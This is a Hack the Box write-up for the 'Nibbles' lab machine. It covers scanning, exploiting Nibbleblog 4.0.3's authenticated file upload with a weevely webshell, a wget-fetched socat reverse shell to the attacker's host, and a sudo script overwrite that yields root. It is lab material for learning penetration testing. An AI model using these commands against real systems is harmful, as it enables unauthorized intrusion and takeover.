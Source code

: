 ```yaml
---
layout: post
title: "Hack the Box - Nibbles Write up"
date: 2018-05-09
description: "Write up for the Hack the box Machine Nibbles."
categories: [write-up, hackthebox]
tags: [writeup, pentesting, hackthebox]
---
```


## Introduction
![Nibbles](/assets/nibbles/1.png)

Nibbles was a pretty nice, refreshing, beginner-friendly box. It wasn't overly complex, but still had enough moving parts so that you were required for to think about what actions you were taking and why. 

## Tools Used 
- [Nmap](https://nmap.org/)
- [GoBuster](https://github.com/OJ/gobuster) 
- [Weevley3](https://github.com/epinna/weevely3)
- [socat](http://www.dest-unreach.org/socat/) 

## Enumeration
### Scanning

Like with every box Let's begin by scanning Nibbles at (10.10.10.75) with Nmap. 

```
root@dastinia:~/htb/nibbles# nmap -sV -sC -Pn 10.10.10.75 -oA nibbles_initial_scan
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-09 13:50 EDT
Nmap scan report for 10.10.10.75
Host is up (0.19s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.83 seconds
```

The scan yields 2 open ports a webserver on port 80, and *SSH* on 22.

### Enumerating HTTP Port 80 (nibbleblog)

Visiting the web server on port 80 the text `Hello world`, and not much else from from a visual perspective. Taking a look at the source code of the page reveals a a comment in the code letting us know that there is `/nibbleblog/` directory.


![Nibbleblog comment left in page source](/assets/nibbles/2.png "Nibbleblog comment left in page source")


Going to the `/nibbleblog/` directory brings us to the main page of a blogging platform [NibbleBlog.](https://github.com/dignajar/nibbleblog)
![NibbleBlog Main Page](/assets/nibbles/3.png "NibbleBlog Main Page")


Hitting the site with `gobuster` in the reveals the following discoverable web content.

```
root@dastinia:~/htb/nibbles# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/ -x php,html -s 200,204,301,302,307,403 -t 100 | tee gobuster_nibbleblog
Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.75/nibbleblog/
[+] Threads      : 100
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 307,403,200,204,301,302
[+] Extensions   : .php,.html
=====================================================
/content (Status: 301)
/index.php (Status: 200)
/themes (Status: 301)
/sitemap.php (Status: 200)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
```

Taking a look at the `README` file at `http://10.10.10.75/nibbleblog/README`, we can see that the current version of this blogging framework is: `version: v4.0.3`, and was released in 2014.

Searching for `Nibbleblog 4.0.3 exploit` or `Nibbleblog exploit` into google/searchsploit returns that this particular version of Nibbleblog is vulnerable to an `arbitrary file upload`, but requires authentication. So based on our prior information, it's safe to say that this will likely going to be our point of entry into the box. See a [write-up about the vulnerability here](https://curesec.com/blog/article/blog/NibbleBlog-403-Code-Execution-47.html)


After some educated guessing you will discover that the credentials to authenticate to the nibbleblog admin panel is: `admin:nibbles`

I noticed a lot of people had issues with discovering what the admin panel credentials were. Normally for HTB boxes, if the login the credentials are guessable they usually look like:


```
admin:admin
admin:password
admin:{BOX_NAME}
{BOX_NAME}:{BOX_NAME}
{BOX_NAME}:password
{BOX_NAME}:admin
etc...
```
Usually if those don't work, then we likely have to dig deeper because there's some other clue that we need to find first.  

![Authenticating to the NibbleBlog Admin Panel](/assets/nibbles/5.png "Authenticating to the NibbleBlog Admin Panel")

## Exploitation

There is a Metasploit module for this vulnerability, but I opted to not use it because exploiting the vulnerability was simple enough, and I couldn't think of any notable benefits of using the Metasploit framework over doing it manually. 

From reading a description of the vulerbility report states that when uploading image files via the "My image" plugin nibbleblog keeps the original extension & doesn't check the file type or content of the file when uploaded. This is a textbook example of an arbitrary file upload vulnerability. My PHP webshell shell of choice is [weevley3](https://github.com/epinna/weevely3). Weevly3 adds a ton of extended functionality from a standard php webshell & improves the overall QoL of using php shells while pentesting. 


To exploit this vulnerbilty all we need to do is: 
1. authenticate to the admin panel 
2. Ensure that the "My image plugin" is enabled. 
3. Upload our PHP webshell. (In this case weevely3).


```
root@dastinia:~/htb/nibbles# weevely generate nibbles /root/htb/nibbles/nibbles.php 
Generated backdoor with password 'nibbles' in '/root/htb/nibbles/nibbles.php' of 1476 byte size.
```

```
root@dastinia:~/htb/nibbles# weevely http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php nibbles id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

root@dastinia:~/htb/nibbles# weevely http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php nibbles

[+] weevely 3.2.0

[+] Target:	nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image
[+] Session:	/root/.weevely/sessions/10.10.10.75/image_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> ls
db.xml
image.php

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image $ pwd 
/var/www/html/nibbleblog/content/private/plugins/my_image
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image $ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)

```

This box had a decent amount of activity at the time I was redoing it, when someone uploads a file using the "My Image Plugin" it will overwrite the `image.php` file, which started started to get pretty annoying, so I decided to upgrade to a socat shell instead. 

_my attack box_
```
root@dastinia:~/htb/nibbles# socat file:`tty`,raw,echo=0 tcp-listen:4545
```
_Nibbles box_
```
nibbler@Nibbles:/tmp $ wget -q 10.10.15.63:9999/socat
nibbler@Nibbles:/tmp $ chmod +x socat
nibbler@Nibbles:/tmp $ ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.15.63:4545
```


### Getting Root

First thing I usually do when I get on a box is to check if the current user is in sudoers/what can be ran as sudo by running `sudo -l`

```
nibbler@Nibbles:/home $ sudo -l 
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

From the sudo output it looks like we can run the shell script `monitor.sh` as root. 

Checking the permissions on the file it seems we have full control over it, so it should be an easy `root.txt`
We can replace `monitor.sh` with any shell script that we want to run as the root user. 


I made simple shell script that would spawn a new shell.  

```bash
#!/bin/sh
sh -c /bin/sh
```

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
#!/bin/sh
sh -c /bin/sh
nibbler@Nibbles:/home/nibbler/personal/stuff $ sudo -u root /home/nibbler/personal/stuff/monitor.sh

sudo: unable to resolve host Nibbles: Connection timed out
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
...[snip]...
```



